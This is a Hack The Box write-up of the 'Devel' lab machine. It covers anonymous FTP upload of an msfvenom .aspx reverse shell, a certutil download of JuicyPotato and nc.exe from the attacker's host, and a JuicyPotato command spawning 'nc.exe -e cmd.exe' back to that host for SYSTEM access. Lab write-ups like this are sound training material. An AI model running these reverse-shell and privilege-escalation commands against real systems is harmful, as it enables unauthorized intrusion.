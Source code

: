 ```yaml
---
layout: post
title: Hack The Box - Devel Writeup
date: 2024-06-07 02:00:00 +0100
published: true
categories: [Hack The Box]
tags: [Hack The Box]
---
```



![develBadge.png](/assets/img/Devel/develBadge.png)

## Summary

Using anonymous login to ftp server I was able to access web root of `IIS`. It is possible to upload reverse shell via ftp and trigger it by accessing it on port 80. Enumerating system as web `user` reveals that this user has `SeImpersonatePrivilege` enabled. To exploit this I used `JuicyPotato` in conjunction with the `nc.exe` to get reverse shell with `system` privileges. 

___
## Reconnaissance

### Nmap

```
nmap -sV -sC -oN ./nmap.txt 10.10.10.5
```

```
PORT   STATE SERVICE VERSION
21/tcp open  ftp     Microsoft ftpd
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
| 03-18-17  02:06AM       <DIR>          aspnet_client
| 03-17-17  05:37PM                  689 iisstart.htm
|_03-17-17  05:37PM               184946 welcome.png
| ftp-syst: 
|_  SYST: Windows_NT
80/tcp open  http    Microsoft IIS httpd 7.5
|_http-title: IIS7
|_http-server-header: Microsoft-IIS/7.5
| http-methods: 
|_  Potentially risky methods: TRACE
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows
```

## Enumeration

### Service Enumeration

| **IP Address** | **Ports Open** |
|-------|--------|
| 10.10.11.180 | **TCP**: 21, 80 |

#### Port 21

##### Anonymous Login

```
ftp anonymous@10.10.10.5
```

![ftpAnonym.png](/assets/img/Devel/ftpAnonym.png)

After logging in anonymously it looks like we have access to `IIS` web root. 

#### Port 80

##### Technology

![technology.png](/assets/img/Devel/technology.png)

##### Website

![port80.png](/assets/img/Devel/port80.png)


___
## Initial Foothold

### Uploading reverse shell via FTP

If we are able to upload reverse shell via ftp to web root then we can access it on port 80 which will trigger it.

First I created malicious file using `msfvenom`. We know that website is using `Microsoft ASP.NET` framework so I used `.aspx` shell.

```
msfvenom -f aspx -p windows/shell_reverse_tcp LHOST=10.10.14.38 LPORT=7003 -e x86/shikata_ga_nai -o shell.aspx
```

Next I uploaded `shell.aspx` to web root of server. 

![ftpUploadShell.png](/assets/img/Devel/ftpUploadShell.png)

To trigger reverse shell I accessed uploaded shell on port 80. 

![shellAccess.png](/assets/img/Devel/shellAccess.png)

![reverseSHell.png](/assets/img/Devel/reverseSHell.png)
_____
## Privilege Escalation

### System Enumeration

Checking privileges for current user, we can see that `SeImpersonatePrivilege` is enabled. There are multiple ways to exploit this so first check type of system which is this machine based on. 

```
whoami /priv
```

![whoamiPriv.png](/assets/img/Devel/whoamiPriv.png)

```
systeminfo
```

![systeminfo.png](/assets/img/Devel/systeminfo.png)

We can see that machine is `x86` based so we need to use exploit compatible with this architecture.
### Abusing SeImpersonatePrivilege - Juicy Potato

For privilege escalation I used [`JuicyPotato`](https://github.com/ivanitlearning/Juicy-Potato-x86) in conjunction with the [`nc.exe`](https://github.com/int0x33/nc.exe/) to get reverse shell with `system` privileges.

First I downloaded files from my local machine using `certutil`.

Creating web server on my local machine:
```
python3 -m http.server 7004
```

Downloading files to victim machine:
```
certutil -urlcache -split -f "http://10.10.14.38:7004/Juicy.Potato.x86.exe" Juicy.Potato.x86.exe
```

```
certutil -urlcache -split -f "http://10.10.14.38:7004/nc.exe" nc.exe
```

![juicyDownload.png](/assets/img/Devel/juicyDownload.png)

When all needed files are present on the system we can get reverse shell using this command:
```
.\Juicy.Potato.x86.exe -l 7007 -c "{4991d34b-80a1-4291-83b6-3328366b9097}" -p c:\windows\system32\cmd.exe -a "/c c:\Windows\Temp\nc.exe -e cmd.exe 10.10.14.38 7005" -t * 
```

![escalation.png](/assets/img/Devel/escalation.png)

![systemShell.png](/assets/img/Devel/systemShell.png)

___
## Post Exploitation

### User.txt

![systemShell.png](/assets/img/Devel/userFlag.png)

### Root.txt

![rootFlag.png](/assets/img/Devel/rootFlag.png)

